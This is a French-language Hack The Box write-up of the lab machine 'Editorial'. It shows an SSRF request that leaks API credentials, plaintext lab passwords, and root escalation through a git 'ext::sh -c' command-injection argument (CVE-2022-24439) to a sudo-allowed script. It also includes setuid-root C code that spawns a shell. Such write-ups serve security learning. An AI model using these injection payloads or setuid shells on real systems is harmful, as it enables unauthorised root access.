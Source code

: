 ```yaml
---
title: HTB | Editorial
description: Editorial is an easy difficulty Linux machine that features a publishing web application vulnerable to Server-Side Request Forgery (SSRF). This vulnerability is leveraged to gain access to an internal running API, which is then leveraged to obtain credentials that lead to SSH access to the machine. Enumerating the system further reveals a Git repository that is leveraged to reveal credentials for a new user. The root user can be obtained by exploiting CVE-2022-24439 and the sudo configuration.
slug: editorial-htb
date: 2024-08-06 00:00:00+0000
#image: cover.png
categories:
 - HackTheBox
tags:
 - Linux
 - Easy
#weight: 1
---
```


<table style="border:none; width:100%;">
  <tr>
    <!-- Colonne gauche : logo -->
    <td style="border:none; text-align:center; vertical-align:middle; width:150px;">
      <img src="cover.png" alt="Editorial cover" width="120">
    </td>
    <td style="border:none; text-align:center; vertical-align:middle;">
      <table style="margin:auto; border-collapse:collapse; border:1px solid #ddd;">
        <thead>
          <tr>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Machine name</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">OS</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">IP</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Difficulty</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Editorial</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Linux</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">10.10.11.20</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Easy</td>
          </tr>
        </tbody>
      </table>
    </td>
  </tr>
</table>

## Enumeration

### nmap
```bash
Nmap scan report for editorial.htb (10.10.11.20)
Host is up (0.65s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
7002/tcp filtered afs3-prserver
```

### Notes
```bash
submissions@tiempoarriba.htb
http://127.0.0.1:5000/api/latest/metadata/messages/authors
```

## Foothold

### SSRF

```bash
POST /upload-cover HTTP/1.1
...
------WebKitFormBoundaryNBB1NG9hyA1AyOej
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:5000/api/latest/metadata/messages/authors
------WebKitFormBoundaryNBB1NG9hyA1AyOej
Content-Disposition: form-data; name="bookfile"; filename="2664593.png"
Content-Type: image/png

PNG
...
```
Dans la réponse de l'api, on obtient les creds :
user: dev
password: dev080217_devAPI!@
```bash
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 04 Aug 2024 23:44:11 GMT
Content-Type: application/octet-stream
Content-Length: 506
Connection: keep-alive
Content-Disposition: inline; filename=f84e3727-b58e-4a33-8cae-f439b5a6a997
Last-Modified: Sun, 04 Aug 2024 23:44:11 GMT
Cache-Control: no-cache
ETag: "1722815051.1237798-506-4116584587"

{"template_mail_message":"Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."}
```

### SSH to user and prod
On trouve repo git. En se deplacant dans les commits :

En se connectant a user, on trouve un fichier python avec les creds d'un autre utilisateur:
user: prod
pass: 080217_Producti0n_2023!@
```bash
 api_mail_new_authors():
    return jsonify({
        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
```

## Privilege Escalation
On utilise le compte prod.

### Enumeration
```bash
prod@editorial:~$ sudo -l
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

### clone_prod_change.py as root
```bash
cat exploit.c 
##include <unistd.h>

int main() {
    setuid(0);
    setgid(0);
    system("cat /root/root.txt");
    return 0;
}
```
Ensuite, on compile le fichier en tant que root. Le fichier `exploit` est donc créer avec le owner `root`. Il suffit ensuite d'executer un chmod +s, ce qui met le bit SUID à 1. Le bit SUID permet d'executer un binaire comme ci on était le owner, même si on est pas connecté en tant que root.
Lors de l'execution du binaire, on effectue un cat et on obtient le flag root
```bash
prod@editorial:~$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c gcc% /home/prod/exploit.c% -o% /home/prod/exploit"
...
...
prod@editorial:~$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c chmod% +s% /home/prod/exploit"
...
...
prod@editorial:~$ ls -l
...
-rwsr-sr-x 1 root root 16048 Aug  5 22:47 exploit
-rw-rw-r-- 1 prod prod   114 Aug  5 22:45 exploit.c
prod@editorial:~$ ./exploit 
7e05.....dea0
```

### BONUS
Permet d'obtenir un shell. Aussi simple que l'autre...
```bash
#include <unistd.h>

int main() {
    setuid(0);
    setgid(0);
    system("/bin/bash");
    return 0;
}
```
```bash
## Commandes pour compiler et le chmod +s...
## ....
prod@editorial:~$ ./exploit2
root@editorial:~# whoami
root
root@editorial:~# cd /root
root@editorial:/root# ls
root.txt
root@editorial:/root# cat root.txt 
7e05.....dea0
```

### BONUS FINAL
Il y avait beaucoup plus rapide... On fait un cat puis on met dans le /home de prod... Il reste plus qu'a faire un cat du fichier...
```bash
$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c cat% /root/root.txt% >% /home/prod/hehe"
$ cat hehe 
7e05.....dea0
```